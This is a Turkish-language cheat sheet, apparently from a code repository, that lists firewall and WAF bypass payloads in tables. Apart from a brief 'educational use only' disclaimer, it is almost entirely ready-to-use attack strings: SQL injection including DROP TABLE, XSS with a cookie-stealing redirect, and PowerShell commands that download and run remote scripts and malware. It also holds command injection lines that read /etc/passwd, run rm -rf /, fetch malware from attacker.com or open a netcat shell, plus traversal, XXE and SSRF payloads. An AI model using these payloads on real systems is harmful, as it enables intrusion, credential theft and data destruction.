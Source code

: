 # Güvenlik Duvarı Atlatma Teknikleri

Aşağıda, çeşitli güvenlik duvarı atlatma tekniklerine dair geniş kapsamlı bir liste bulunmaktadır. Bu bilgiler yalnızca eğitim amaçlıdır ve yalnızca etik siber güvenlik uygulamalarında kullanılmalıdır.

## 1. SQL Enjeksiyonu Evasion Teknikleri

| Payload |
|---------|
| - ' OR 'a'='a |
| - ')) OR 'x'='x |
| - ' OR 1=1# |
| - ' OR 'x'='x |
| - -1 UNION SELECT 1,@@version -- + |
| - -1 UNION ALL SELECT 1,2,3,table_name FROM information_schema.tables WHERE 2>1 -- + |
| - ' OR uname LIKE '%root% |
| - ' OR 'unusual' = 'unusual' |
| - ' OR 1=1 LIMIT 1 -- + comment |
| - '; DROP TABLE members; -- |
| - '; SELECT * FROM members WHERE username = 'admin' -- |

## 2. HTTP Parametre Kirliliği (HPP) WAF Atlatma

| Payload |
|---------|
| - url&s1="><script>document.location='http://yourdomain.com/cookie_stealer.php?c='+document.cookie</script> |
| - url&s1="><iframe src="http://evil.com" width="0" height="0" /> |
| - url&s1="><img src=x onerror=alert(1)> |
| - url&s1="><svg/onload=alert(1)> |
| - url&s1="><div style="background-image:url(javascript:alert('XSS'))"> |
| - url&s1="><a href="javascript:alert('XSS')">link</a> |

## 3. IP Atlatma

| Payload |
|---------|
| - X-Real-IP: istenen ip adresi |
| - X-Client-IP: istenen ip adresi |
| - Client-IP: istenen ip adresi |
| - X-Cluster-Client-IP: istenen ip adresi |
| - True-Client-IP: istenen ip adresi |
| - X-Forwarded-Host: istenen ip adresi |

## 4. Windows PowerShell Atlatma

| Payload |
|---------|
| - powershell.exe -ExecutionPolicy Bypass -File script.ps1 |
| - powershell -ep bypass -Command "& {Get-ExecutionPolicy}" |
| - powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://url/script.ps1')" |
| - powershell.exe -WindowStyle hidden {your script here} |
| - powershell -c "(New-Object Net.WebClient).DownloadFile('http://url/malware.exe', 'C:\Windows\Temp\malware.exe')" |

## 5. XSS (Cross Site Scripting) Atlatma

| Payload |
|---------|
| - <img src="x" onerror="alert('XSS')"> |
| - <svg/onload=alert('XSS')> |
| - "><script>alert('XSS')</script> |
| - <div style="width:100px;height:100px;background:url(javascript:alert('XSS'))"> |
| - <input type="text" name="name" value="<img src='x'onerror=alert('XSS')>"> |

## 6. CSRF (Cross Site Request Forgery) Atlatma

| Payload |
|---------|
| - <img src="http://target-site.com/csrf-endpoint?payload=value" width="0" height="0" /> |
| - <iframe src="http://target-site.com/csrf-endpoint?payload=value" width="0" height="0" /> |
| - <form action="http://target-site.com/csrf-endpoint" method="POST"><input type="hidden" name="payload" value="value" /></form><script>document.forms[0].submit()</script> |

## 7. Command Injection Atlatma

| Payload |
|---------|
| - ; ls |
| - ; cat /etc/passwd |
| - ; rm -rf / |
| - ; wget http://attacker.com/malware.exe |
| - ; nc -lvnp 4444 -e /bin/bash |

## 8. Directory Traversal Atlatma

| Payload |
|---------|
| - ../../etc/passwd |
| - ../../etc/shadow |
| - ../..//etc/passwd |
| - ..//..//etc//passwd |
| - ..//..//var//www//html//index.php |

## 9. XML External Entity (XXE) Atlatma

| Payload |
|---------|
| - <?xml version="1.0" ?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root> |
| - <?xml version="1.0" ?><!DOCTYPE root [<!ENTITY test SYSTEM 'http://attacker.com/ssrf'>]><root>&test;</root> |

## 10. Server Side Request Forgery (SSRF) Atlatma

| Payload |
|---------|
| - http://localhost:8080/admin |
| - http://169.254.169.254/latest/meta-data/ |
| - http://[::]:80/ |
| - gopher://localhost:6379/_FLUSHALL |
